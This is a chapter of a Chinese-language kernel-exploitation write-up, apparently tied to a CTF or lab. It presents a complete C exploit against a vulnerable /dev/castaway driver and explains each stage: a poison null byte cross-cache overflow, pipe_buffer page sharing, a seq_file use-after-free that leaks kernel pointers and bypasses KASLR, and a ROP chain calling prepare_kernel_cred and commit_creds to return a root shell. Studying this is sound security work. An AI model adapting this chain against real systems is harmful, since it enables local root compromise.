/******************************************************************************
 * MAIN EXPLOIT LOGIC
 *****************************************************************************/
int main(int argc, char **argv) {
    /* Phase 0: Prepare environment */
    log.info("==============================================");
    log.info("Phase 0: Prepare environment");
    log.info("==============================================");
    bind_core(0);
    save_status();

    /* Phase 1: Device initialization */
    log.info("==============================================");
    log.info("Phase 1: Device initialization");
    log.info("==============================================");

    /* Phase 1-1: Open vulnerable device */
    log.info("Phase 1-1: Opening /dev/castaway device");
    dev_fd = open("/dev/castaway", O_RDWR);
    if (dev_fd < 0) {
        log.error("Phase 1-1: Failed to open /dev/castaway device");
        exit(-1);
    }
    log.success("Phase 1-1: Opened /dev/castaway device (fd: %d)", dev_fd);

    /* Phase 1-2: Initialize page spraying system */
    log.info("Phase 1-2: Initializing page spray infrastructure");
    prepare_pgv_system();

    /* Phase 2: Memory preparation and slab isolation */
    log.info("==============================================");
    log.info("Phase 2: Memory preparation and slab isolation");
    log.info("==============================================");

    /* Phase 2-1: Mark pipe buffers for collision detection */
    log.info("Phase 2-1: Marking pipe buffers with magic values for collision detection");
    for (int i = 0; i < MAX_PIPES; i++) {
        alloc_pipe_buff(i);
        seq_file_data[0] = *(size_t*)"BinRacer";
        seq_file_data[1] = i;
        write(pipe_fds[i][1], seq_file_data, 0x70);
    }

    /* Phase 2-2: Spray order-0 pages via socket buffers */
    log.info("Phase 2-2: Spraying %d order-0 pages via socket buffers", INITIAL_PAGE_SPRAY);
    for (int i = 0; i < INITIAL_PAGE_SPRAY; i++) {
        if (alloc_page(i, 0x1000, 1) < 0) {
            log.error("Phase 2-2: Failed to allocate socket page at index %d", i);
            exit(-1);
        }
    }

    /* Phase 2-3: Create memory holes for slab isolation */
    log.info("Phase 2-3: Creating memory holes for slab isolation");
    for (int i = 1; i < INITIAL_PAGE_SPRAY; i += 2) free_page(i);

    /* Phase 2-4: Place pipe buffers in kmalloc-512 slabs */
    log.info("Phase 2-4: Placing pipe buffers in kmalloc-512 slabs");
    for (int i = 0; i < MAX_PIPES; i++) resize_pipe_buff(i, 0x1000 * 8);

    /* Phase 2-5: Free remaining pages to isolate target slab */
    log.info("Phase 2-5: Freeing remaining pages to isolate target slab");
    for (int i = 0; i < INITIAL_PAGE_SPRAY; i += 2) free_page(i);
    log.success("Phase 2-5: Target slab isolated");

    /* Phase 3: Cross-cache overflow and info leak */
    log.info("==============================================");
    log.info("Phase 3: Cross-cache overflow and info leak");
    log.info("==============================================");

    /* Phase 3-1: Execute cross-cache overflow */
    log.info("Phase 3-1: Executing cross-cache overflow on %d pages", FINAL_PAGE_SPRAY);
    for (int i = 0; i < FINAL_PAGE_SPRAY; i++) {
        alloc_vuln_page(isolation_pages, i);
    }
    log.success("Phase 3-1: Cross-cache overflow completed");

    /* Phase 3-2: Prepare overflow data to corrupt adjacent object */
    log.info("Phase 3-2: Preparing overflow data to corrupt adjacent object");
    memset(evil_data, 0, CHUNK_SIZE);
    size_t evil_addr = 0x00;
    memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
    edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE - 5);
    log.success("Phase 3-2: Overflow data written");

    /* Phase 3-3: Find corrupted pipe_buffer for info leak */
    log.info("Phase 3-3: Searching for corrupted pipe_buffer for info leak");
    for (int i = 0; i < MAX_PIPES; i++) {
        memset(seq_file_data, 0, 0x40);
        read(pipe_fds[i][0], seq_file_data, 0x40);
        if (seq_file_data[0] == 0x72656361526e6942 && seq_file_data[1] != i) {
            victim_pipe_index = seq_file_data[1];
            evil_pipe_index = i;
            hex_dump("Phase 3-3: Leaked overlap pipe_buffer:", (char *)seq_file_data, 0x40);
            log.success("Phase 3-3: Found victim pipe: %d, evil pipe: %d", victim_pipe_index, evil_pipe_index);
        }
    }

    if (evil_pipe_index == -1) {
        log.error("Phase 3-3: Failed to find corrupted pipe, exploit aborted");
        cleanup();
        exit(-1);
    }

    /* Phase 3-4: Reallocate victim slot with seq_file */
    log.info("Phase 3-4: Replacing victim pipe with seq_file for kernel pointer leak");
    close(pipe_fds[victim_pipe_index][0]);
    close(pipe_fds[victim_pipe_index][1]);

    for (int i = 0; i < MAX_SEQ_FDS; i++) alloc_seq_file(i);

    /* Phase 3-5: Leak kernel addresses from overlapped seq_file */
    memset(seq_file_data, 0, 0x30);
    read(pipe_fds[evil_pipe_index][0], seq_file_data, 0x30);
    size_t seq_file_addr = seq_file_data[0] - 0x40;
    size_t seq_ops_addr = seq_file_data[2];
    hex_dump("Phase 3-3: Leaked seq_file:", (char *)seq_file_data, 0x30);
    log.success("Phase 3-3: Leaked seq_file_addr: 0x%lx", seq_file_addr);
    log.success("Phase 3-3: Leaked seq_ops_addr: 0x%lx", seq_ops_addr);

    /* Phase 4: RIP control and privilege escalation */
    log.info("==============================================");
    log.info("Phase 4: RIP control and privilege escalation");
    log.info("==============================================");

    /* Phase 4-1: Hijack seq_file->ops->start via corrupted pipe_buffer */
    log.info("Phase 4-1: Hijacking seq_file->ops->start via corrupted pipe_buffer");
    seq_file_data[0] = seq_ops_addr;
    seq_file_data[1] = 0x20;
    seq_file_data[2] = 0;
    seq_file_data[3] = 0x20;
    write(pipe_fds[evil_pipe_index][1], seq_file_data, 0x20);

    /* Phase 4-2: Locate victim seq_file for RIP control */
    log.info("Phase 4-2: Locating victim seq_file for RIP control");
    int victim_seq_index = -1;
    for (int i = 0; i < MAX_SEQ_FDS; i++) {
        size_t seq_ops[4] = {0};
        read(seq_fd[i], seq_ops, 0x20);
        if (seq_ops[0] > kernel_base &&
            ((seq_ops[0] & 0xfff) == (SINGLE_START & 0xfff))) {
            kernel_offset = seq_ops[0] - SINGLE_START;
            kernel_base += kernel_offset;
            victim_seq_index = i;
            log.success("Phase 4-2: Found victim seq_file at index %d", i);
            log.success("Phase 4-2: Leaked single_start: 0x%lx", seq_ops[0]);
            log.success("Phase 4-2: Kernel base: 0x%lx", kernel_base);
            log.success("Phase 4-2: Kernel offset: 0x%lx", kernel_offset);
            break;
        }
    }

    if (victim_seq_index == -1) {
        log.error("Phase 4-2: Failed to find victim seq_file for RIP control");
        cleanup();
        exit(-1);
    }

    /* Phase 4-3: Build ROP chain for privilege escalation */
    log.info("Phase 4-3: Building ROP chain for privilege escalation");
    rop_chain = (size_t*)((char *)seq_file_data - 0x20 + 0x28 + 0x39);
    rop_chain[0] = kernel_offset + POP_RSP_BP_RET;

    seq_file_data[0] = kernel_offset + PUSH_RSI_JMP_RSI_39;
    seq_file_data[1] = 0;
    seq_file_data[2] = kernel_offset + ADD_RSP_0X40_RET;
    seq_file_data[3] = 0;
    seq_file_data[4] = seq_file_addr + 0x40;
    seq_file_data[5] = seq_file_addr + 0x40;
    seq_file_data[6] = seq_file_addr + 0x20;

    rop_chain = (size_t*)&seq_file_data[10];
    int i = 0;
    rop_chain[i++] = 0; // padding
    rop_chain[i++] = kernel_offset + POP_RDI_RET;
    rop_chain[i++] = 0;
    rop_chain[i++] = kernel_offset + PREPARE_KERNEL_CRED;
    rop_chain[i++] = kernel_offset + POP_RCX_BX_12_BP_RET;
    rop_chain[i++] = 0;
    rop_chain[i++] = 0;
    rop_chain[i++] = 0;
    rop_chain[i++] = 0;
    rop_chain[i++] = kernel_offset + MOV_RDI_RAX_MOVSQ_RET;
    rop_chain[i++] = kernel_offset + COMMIT_CREDS;
    rop_chain[i++] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22;
    rop_chain[i++] = *(size_t *)"BinRacer";
    rop_chain[i++] = *(size_t *)"BinRacer";
    rop_chain[i++] = (size_t)get_root_shell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp + 8;
    rop_chain[i++] = user_ss;

    /* Phase 4-4: Trigger ROP chain */
    log.info("Phase 4-4: Writing ROP chain to corrupted pipe_buffer");
    write(pipe_fds[evil_pipe_index][1], seq_file_data, 0x100);
    log.info("Phase 4-4: Triggering ROP chain via seq_file read...");
    read(seq_fd[victim_seq_index], seq_file_data, 0x8);

    cleanup();
    return 0;
}
```

### 6-1. 技术背景与核心原理

#### 6-1-1. 概念解析

Poison Null Byte 是一种基于堆内存损坏的高级技术，其核心原理是通过精确的单字节溢出（null byte overflow），在特定条件下改变堆管理元数据或对象边界，从而创造内存布局异常。与传统的缓冲区溢出不同，这种技术仅通过一个空字节（0x00）的越界写入，即可引发连锁反应，打破SLUB分配器的预期行为。

**技术特征对比**：

| 特征维度 | 传统溢出技术     | Poison Null Byte 技术 |
| -------- | ---------------- | --------------------- |
| 覆写规模 | 大量数据覆写     | 单字节精确修改        |
| 执行方式 | 直接代码执行尝试 | 间接内存布局操控      |
| 目标范围 | 目标对象广泛     | 依赖特定堆分配模式    |
| 检测难度 | 较易被检测       | 隐蔽性显著增强        |
| 技术要求 | 相对较低         | 需精确堆布局控制      |

#### 6-1-2. 技术实现概览

本技术实现基于Linux内核的SLUB分配器特性，通过跨缓存溢出修改相邻`pipe_buffer`结构体的`page`指针字段，制造两个管道缓冲区共享同一物理页面的条件，进而利用释放后重用（UAF）实现信息泄露和控制流重定向。与第四章的技术实现相比，本方案采用了更精细的内存操作和更复杂的数据结构交互，体现了从基础溢出到高级堆操作的进化路径。



### 6-2. 环境准备与设备初始化

#### 6-2-1. 执行环境标准化

与技术实现主体架构一致，首先建立稳定的执行环境，确保技术实现的可靠性和可重复性。环境准备是所有后续操作的基础，其稳定性直接影响技术实现的成功率。

**核心环境配置**：

```c
/* Phase 0: Prepare environment */
log.info("==============================================");
log.info("Phase 0: Prepare environment");
log.info("==============================================");
bind_core(0);
save_status();
```

**关键组件说明**：

- **核心绑定**：`bind_core(0)`将进程锁定至CPU 0，消除多处理器环境下的缓存一致性问题，确保内存操作的确定性
- **状态保存**：`save_status()`完整保存用户态寄存器上下文，包括代码段选择子、栈指针、标志寄存器等，为内核态返回提供恢复基准
- **错误处理**：集成完善的错误检测与资源清理机制，确保异常条件下的系统稳定性

#### 6-2-2. 漏洞设备接口封装

目标设备`/dev/castaway`提供标准化的内存操作接口，通过`ioctl`系统调用实现内核态内存的分配与编辑。设备接口的抽象封装提高了代码的可维护性和可读性。

**设备操作抽象层**：

```c
/*
 * Device interaction wrappers
 */
int64_t alloc_chunk(void) {
    return ioctl(dev_fd, 0xCAFEBABE, 0);
}

int64_t edit_chunk(int64_t idx, uint64_t size, char *buf) {
    struct user_req req = {.idx = idx, .size = size, .buf = buf};
    return ioctl(dev_fd, 0xF00DBABE, (unsigned long)&req);
}
```

**系统调用链分析**：

```
用户空间ioctl() → 系统调用入口__x64_sys_ioctl() → do_vfs_ioctl() → vfs_ioctl() →
字符设备层chrdev_ioctl() → 设备驱动castaway_ioctl() → castaway_edit()执行内存操作
```

### 6-3. 精细化内存布局工程

#### 6-3-1. 内存拓扑构建策略

本阶段通过多层内存操作构建精确的物理内存布局，为后续的对象碰撞创造必要条件。内存布局的精确性是Poison Null Byte技术成功的关键，需要克服SLUB分配器的随机化机制。

**布局构建步骤**：

1. **标记管道缓冲区**：通过管道通信机制建立内存标识系统，为后续碰撞检测提供基准
2. **大规模页面喷射**：利用套接字环形缓冲区分配连续物理内存，创造可控内存区域
3. **规律性空洞创建**：间隔释放页面形成可预测内存空隙，为目标对象分配提供插槽
4. **目标结构体放置**：在空隙中精准分配目标内核对象，确保物理内存相邻性
5. **Slab隔离**：清除干扰页面形成纯净操作环境，提高技术实现成功率

**管道标识系统建立**：

```c
/* Phase 2-1: Mark pipe buffers with magic values for collision detection */
log.info("Phase 2-1: Marking pipe buffers with magic values for collision detection");
for (int i = 0; i < MAX_PIPES; i++) {
    alloc_pipe_buff(i);
    seq_file_data[0] = *(size_t*)"BinRacer";
    seq_file_data[1] = i;
    write(pipe_fds[i][1], seq_file_data, 0x70);
}
```

**用户空间到内核的完整调用链（管道创建）**：

```
用户空间pipe() → 系统调用__x64_sys_pipe2() → do_pipe2() →
__do_pipe_flags() → 创建inode与文件结构 → alloc_pipe_info()分配pipe_buffer环形队列
```

**alloc_pipe_info() 关键行为**：

- 调用`kzalloc(sizeof(struct pipe_inode_info), GFP_KERNEL)`分配pipe元信息结构
- 调用`kcalloc(pipe_bufs, sizeof(struct pipe_buffer), GFP_KERNEL)`分配pipe_buffer数组
- 初始化环形队列头尾指针、等待队列、锁等元数据
- 返回管道文件结构，供用户空间通过文件描述符访问

**内存喷射与塑形**：

```c
/* Phase 2-2: Spray order-0 pages via socket buffers */
log.info("Phase 2-2: Spraying %d order-0 pages via socket buffers", INITIAL_PAGE_SPRAY);
for (int i = 0; i < INITIAL_PAGE_SPRAY; i++) {
    if (alloc_page(i, 0x1000, 1) < 0) {
        log.error("Phase 2-2: Failed to allocate socket page at index %d", i);
        exit(-1);
    }
}
```

#### 6-3-2. Slab隔离机制

通过精确的内存释放与重新分配，在kmalloc-512缓存中创建隔离区域，确保目标对象的物理内存相邻性。Slab隔离是内存布局工程的核心环节，直接影响后续溢出的精确度。

**空洞创建与对象放置**：

```c
/* Phase 2-3: Create memory holes for slab isolation */
log.info("Phase 2-3: Creating memory holes for slab isolation");
for (int i = 1; i < INITIAL_PAGE_SPRAY; i += 2) free_page(i);
```

**管道缓冲区扩容（触发resize）**：

```c
/* Phase 2-4: Place pipe buffers in kmalloc-512 slabs */
log.info("Phase 2-4: Placing pipe buffers in kmalloc-512 slabs");
for (int i = 0; i < MAX_PIPES; i++) resize_pipe_buff(i, 0x1000 * 8);
```

**管道扩容内核调用链**：

```
用户空间fcntl(F_SETPIPE_SZ) → 系统调用__x64_sys_fcntl() → ksys_fcntl() →
fdget()获取文件结构 → pipe_fcntl() → pipe_resize_ring()
```

**pipe_resize_ring() 关键操作**：

- 验证新容量参数合法性，检查权限限制
- 调用`round_pipe_size()`对齐环形缓冲区大小
- 分配新`pipe_buffer`数组并迁移旧数据
- 释放旧缓冲区回SLUB缓存（可能被后续重用）
- 更新`pipe_inode_info`的缓冲区指针与容量

**最终隔离操作**：

```c
/* Phase 2-5: Free remaining pages to isolate target slab */
log.info("Phase 2-5: Freeing remaining pages to isolate target slab");
for (int i = 0; i < INITIAL_PAGE_SPRAY; i += 2) free_page(i);
log.success("Phase 2-5: Target slab isolated");
```

#### 6-3-3. 关键内存布局图示

<pre>
初始内存布局（喷射后）：
┌─────────┬─────────┬─────────┬─────────┬─────────┐
│ Page 0  │ Page 1  │ Page 2  │ Page 3  │ Page 4  │  ← 顺序分配的物理页面
└─────────┴─────────┴─────────┴─────────┴─────────┘

规律性释放（间隔释放奇数页）：
┌─────────┬─────────┬─────────┬─────────┬─────────┐
│ Page 0  │ ❌ FREE│ Page 2  │ ❌ FREE │ Page 4  │  ← 棋盘式空洞布局
└─────────┴─────────┴─────────┴─────────┴─────────┘

管道缓冲区插入（填充空洞）：
┌─────────┬───────────────────┬─────────┬───────────────────┬─────────┐
│ Page 0  │ pipe_buffer_A     │ Page 2  │ pipe_buffer_B     │ Page 4  │
│         │ (magic="BinRacer")│         │ (magic="BinRacer")│         │
└─────────┴───────────────────┴─────────┴───────────────────┴─────────┘

最终隔离（清除干扰页）：
┌───────────────────┬───────────────────┬───────────────────┐
│ pipe_buffer_A     │ pipe_buffer_B     │ pipe_buffer_C     │  ← 纯净的kmalloc-512 slab
│ (magic="BinRacer")│ (magic="BinRacer")│ (magic="BinRacer")│
└───────────────────┴───────────────────┴───────────────────┘
</pre>

### 6-4. 跨缓存溢出与共享页面构造

#### 6-4-1. 漏洞触发与page指针损坏

利用目标设备的编辑操作实现跨缓存溢出，通过单字节null溢出修改相邻`pipe_buffer`结构体的`page`指针字段。这种精确定向的溢出方式是Poison Null Byte技术的核心特征，旨在制造两个管道缓冲区共享同一物理页面的异常条件。

**溢出数据构造**：

```c
/* Phase 3-2: Prepare overflow data to corrupt adjacent object */
log.info("Phase 3-2: Preparing overflow data to corrupt adjacent object");
memset(evil_data, 0, CHUNK_SIZE);
size_t evil_addr = 0x00;
memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE - 5);
```

**技术机理分析**：

- **溢出点**：`CHUNK_SIZE - 5`的精确长度控制确保仅溢出单个null字节，瞄准`pipe_buffer`结构体的`page`指针低位
- **目标字段**：`pipe_buffer->page`指针指向管道数据所在的物理页面，null字节覆写将其低字节清零
- **共享效应**：若两个相邻`pipe_buffer`的`page`指针低字节清零后指向同一物理页面，即制造出共享内存条件
- **隐蔽优势**：单字节修改难以被基于异常值检测的安全机制捕捉，且不破坏结构体其他关键字段

#### 6-4-2. 共享页面检测

通过预设的魔数字标识检测内存页面共享状态，确定溢出成功的具体实例。共享检测是实现后续UAF和信息泄露的前提步骤。

**共享页面检测机制**：

```c
/* Phase 3-3: Search for corrupted pipe_buffer for shared page detection */
for (int i = 0; i < MAX_PIPES; i++) {
    memset(seq_file_data, 0, 0x40);
    read(pipe_fds[i][0], seq_file_data, 0x40);
    if (seq_file_data[0] == 0x72656361526e6942 && seq_file_data[1] != i) {
        victim_pipe_index = seq_file_data[1];
        evil_pipe_index = i;
        log.success("Phase 3-3: Found victim pipe: %d, evil pipe: %d", victim_pipe_index, evil_pipe_index);
    }
}
```

**检测原理**：

1. **魔数校验**：`0x72656361526e6942`对应字符串"BinRacer"的Little-Endian编码，作为唯一身份标识
2. **索引异常**：读取到的管道索引与当前管道索引不符，表明两个管道缓冲区共享同一物理页面
3. **共享确认**：受害者管道与邪恶管道指向同一内存区域，验证溢出成功构造共享条件

#### 6-4-3. 内存损坏与共享页面图示

<pre>
溢出前内存布局（相邻pipe_buffer）：
┌───────────────────────┬───────────────────────┐
│ castaway_chunk        │ pipe_buffer_A         │
│ (512字节可控数据)      │ (内核pipe_buffer结构体)│
├───────────────────────┼───────────────────────┤
│ 00 01 02 ... FE FF    │ page* | len | flags...│
└───────────────────────┴───────────────────────┘
                                    ↑
                            指向独立物理页面

单字节溢出（null byte写入page指针低位）：
┌───────────────────────┬───────────────────────┐
│ castaway_chunk        │ pipe_buffer_A         │
│ (填充数据 + 0x00)      │ (page指针低字节清零)   │
├───────────────────────┼───────────────────────┤
│ ... FD FE FF 00       │ page0 | len | flags...│ 
└───────────────────────┴───────────────────────┘
                      ↑ null字节越界写入page指针低位

后果：pipe_buffer_A->page低字节清零，与pipe_buffer_B->page指向同一物理页面：
• 两个pipe_buffer共享同一物理内存区域
• 任一管道释放将导致共享页面被回收
• 另一管道仍持有对已释放页面的引用（UAF条件）
</pre>

### 6-5. UAF构造与信息泄露

#### 6-5-1. 释放后重用（UAF）构造

释放受害者管道对象，触发共享页面回收，并在相同物理内存位置分配`seq_file`结构体，利用释放后重用（Use-After-Free）实现类型混淆。内存重用是SLUB分配器的核心特性，也是本技术实现的关键依赖。

**UAF构造操作**：

```c
/* Phase 3-4: Release victim pipe to free shared page, then reallocate with seq_file */
close(pipe_fds[victim_pipe_index][0]);
close(pipe_fds[victim_pipe_index][1]);

for (int i = 0; i < MAX_SEQ_FDS; i++) alloc_seq_file(i);
```

**管道关闭内核调用链**：

```
用户空间close() → 系统调用__x64_sys_close() → ksys_close() →
filp_close() → fput() → pipe_release()
```

**pipe_release() 释放流程**：

- 递减管道引用计数，若归零则触发销毁
- 遍历环形队列，对每个`pipe_buffer`调用`pipe_buf_release()`释放关联页面
- 调用`free_pipe_info()`释放`pipe_inode_info`结构体和`pipe_buffer`数组
- 被释放的物理页面返回页面分配器，成为空闲页面待重用

**SLUB分配器行为分析**：

- **释放时机**：`pipe_buf_release()`解除页面映射，`free_pipe_info()`回收pipe_buffer数组内存
- **分配竞争**：密集的`seq_file`分配（通过`open("/proc/self/stat")`→`seq_open()`→`kzalloc()`）优先重用刚释放的热内存页面，利用内存分配器的LIFO策略
- **类型混淆**：同一物理内存被重新解释为不同类型的内核对象（`pipe_buffer`→`seq_file`），打破类型安全假设
- **UAF利用**：邪恶管道仍持有对已释放页面的引用，通过该管道读写操作可访问新分配的`seq_file`结构

#### 6-5-2. 内核指针泄露

通过共享页面的UAF条件读取`seq_file`结构内容，获取内核结构指针，计算内核基址与偏移量。信息泄露是现代内核安全机制绕过的关键步骤。

**地址泄露实现**：

```c
/* Phase 3-5: Leak kernel addresses from UAF seq_file via shared page */
memset(seq_file_data, 0, 0x30);
read(pipe_fds[evil_pipe_index][0], seq_file_data, 0x30);
size_t seq_file_addr = seq_file_data[0] - 0x40;
size_t seq_ops_addr = seq_file_data[2];
```

**关键地址计算**：

- `seq_file_addr`：泄露的`seq_file`结构体真实地址，通过固定偏移校正，用于后续ROP链栈布局计算
- `seq_ops_addr`：`seq_operations`结构体指针，指向内核代码段的只读区域，用于推算内核镜像基址
- **基址计算公式**：`kernel_offset = leaked_symbol - known_symbol_offset`，其中known_symbol_offset为默认镜像中的符号固定偏移
- **KASLR绕过**：通过泄露的代码指针反推内核基址，成功绕过内核地址空间布局随机化保护

#### 6-5-3. UAF内存布局图示

<pre>
类型混淆后的内存布局（原共享页面现被seq_file占用）：
┌─────────────────────────────────────────────────────┐
│ 原pipe_buffer共享页面（现存放seq_file结构体）         │
├──────────────┬──────────────┬──────────────┬────────┤
│ seq_file.buf │ seq_file.size│ seq_file.from│ ...    │
│ （8字节指针） │ （8字节）     │ (8字节)      │        │
├──────────────┼──────────────┼──────────────┼────────┤
│ 0xffffXXXXXXXXXXX0          │ 0x0000000000000020    │
└─────────────────────────────┴───────────────────────┘

通过邪恶管道（仍持有页面引用）读取到的数据：
┌─────────────────────────────────────────────────────┐
│ 读取缓冲区内容（包含内核指针）                         │
├──────────────┬──────────────┬──────────────┬────────┤
│ buf_ptr      │ size_val     │ ops_ptr      │ ...    │
│ (内核地址)    │ (用户数据)    │ (内核地址)   │        │
├──────────────┼──────────────┼──────────────┼────────┤
│ 0xffffXXXXXXXXXXX0          │ 0xffffXXXXYYYYYYY0    │
└─────────────────────────────┴───────────────────────┘

泄露指针用途：
• buf_ptr → 推算seq_file结构体内核地址，构建ROP链栈布局
• ops_ptr → 推算内核代码段基址，为ROP gadget定位提供基准
• 双指针互验 → 交叉验证泄露地址的有效性与一致性
</pre>

### 6-6. 控制流重定向与执行

#### 6-6-1. 函数指针篡改

利用UAF条件修改`seq_file`的操作函数表，将控制流导向预定位置。这是控制流劫持的关键步骤，通过合法接口实现执行路径重定向。

**指针篡改操作**：

```c
/* Phase 4-1: Hijack seq_file->ops->start via UAF shared page */
seq_file_data[0] = seq_ops_addr;
seq_file_data[1] = 0x20;
seq_file_data[2] = 0;
seq_file_data[3] = 0x20;
write(pipe_fds[evil_pipe_index][1], seq_file_data, 0x20);
```

**控制流劫持路径**：

```
正常执行流: read() → vfs_read() → seq_read() → seq_operations->start()
篡改后执行流: read() → vfs_read() → seq_read() → [被篡改的指针] → ROP链执行
```

#### 6-6-2. ROP链工程设计

构建精密的ROP（Return-Oriented Programming）链，通过代码复用实现权限提升。ROP技术完全重用内核现有代码片段，无需注入任何外部代码，具有极高的隐蔽性。

**栈布局设计**：

```c
/* Phase 4-3: Build ROP chain for privilege escalation */
rop_chain = (size_t*)((char *)seq_file_data - 0x20 + 0x28 + 0x39);
rop_chain[0] = kernel_offset + POP_RSP_BP_RET;

seq_file_data[0] = kernel_offset + PUSH_RSI_JMP_RSI_39;
seq_file_data[1] = 0;
seq_file_data[2] = kernel_offset + ADD_RSP_0X40_RET;
seq_file_data[3] = 0;
seq_file_data[4] = seq_file_addr + 0x40;
seq_file_data[5] = seq_file_addr + 0x40;
seq_file_data[6] = seq_file_addr + 0x20;
```

栈迁移gadget（`POP_RSP_BP_RET`）位于ROP链起始位置，负责将栈指针从内核栈迁移至可控的伪栈区域。

**权限提升原语**：

```c
rop_chain = (size_t*)&seq_file_data[10];
int i = 0;
rop_chain[i++] = 0; // padding
rop_chain[i++] = kernel_offset + POP_RDI_RET;
rop_chain[i++] = 0;
rop_chain[i++] = kernel_offset + PREPARE_KERNEL_CRED;
rop_chain[i++] = kernel_offset + POP_RCX_BX_12_BP_RET;
rop_chain[i++] = 0;
rop_chain[i++] = 0;
rop_chain[i++] = 0;
rop_chain[i++] = 0;
rop_chain[i++] = kernel_offset + MOV_RDI_RAX_MOVSQ_RET;
rop_chain[i++] = kernel_offset + COMMIT_CREDS;
rop_chain[i++] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22;
rop_chain[i++] = *(size_t *)"BinRacer";
rop_chain[i++] = *(size_t *)"BinRacer";
rop_chain[i++] = (size_t)get_root_shell;
rop_chain[i++] = user_cs;
rop_chain[i++] = user_rflags;
rop_chain[i++] = user_sp + 8;
rop_chain[i++] = user_ss;
```

**ROP链逻辑分段**：

1. **栈迁移段**：调整栈指针至可控内存区域，为后续gadget执行铺平道路
2. **参数准备段**：清理寄存器状态，设置`prepare_kernel_cred`的参数（rdi=0）
3. **凭证创建段**：调用`prepare_kernel_cred(0)`创建root权限凭证结构
4. **权限应用段**：将新凭证移交`commit_creds`应用到当前进程
5. **安全返回段**：通过内核标准返回路径`swapgs_restore_regs_and_return_to_usermode`恢复用户态

#### 6-6-3. 执行触发与状态恢复

通过合法的文件读取操作触发预设的执行流程，完成权限升级后恢复系统状态。触发机制的设计充分利用了内核的正常执行路径，避免引起异常检测。

**控制流触发**：

```c
/* Phase 4-4: Trigger ROP chain */
log.info("Phase 4-4: Writing ROP chain to UAF shared page");
write(pipe_fds[evil_pipe_index][1], seq_file_data, 0x100);
log.info("Phase 4-4: Triggering ROP chain via seq_file read...");
read(seq_fd[victim_seq_index], seq_file_data, 0x8);
```

**执行流程概要**：

1. **触发入口**：用户空间`read()`系统调用进入内核文件操作路径，属于合法系统调用
2. **VFS路由**：`vfs_read()`根据文件类型路由至seq_file的读操作方法
3. **指针解析**：`seq_read()`调用被篡改的`seq_operations->start`指针，跳转至伪操作表
4. **栈迁移**：执行`POP_RSP_BP_RET` gadget，将栈指针迁移至ROP链起始位置
5. **权限提升**：依次执行`prepare_kernel_cred()`和`commit_creds()`完成权限升级
6. **安全返回**：通过`swapgs_restore_regs_and_return_to_usermode`安全返回用户态

#### 6-6-4. 控制流转移动态图示



### 6-7. 技术特征对比与分析

#### 6-7-1. 与传统技术实现的差异化

| 技术维度   | 第四章实现               | 本章Poison Null Byte实现       |
| ---------- | ------------------------ | ------------------------------ |
| 溢出方式   | 常规缓冲区溢出（多字节） | 单字节null溢出（微创操作）     |
| 目标对象   | 直接篡改udp_prot函数指针 | 间接对象重叠操纵seq_operations |
| 信息泄露   | seq_file buf指针覆写     | 管道共享页面UAF与类型混淆      |
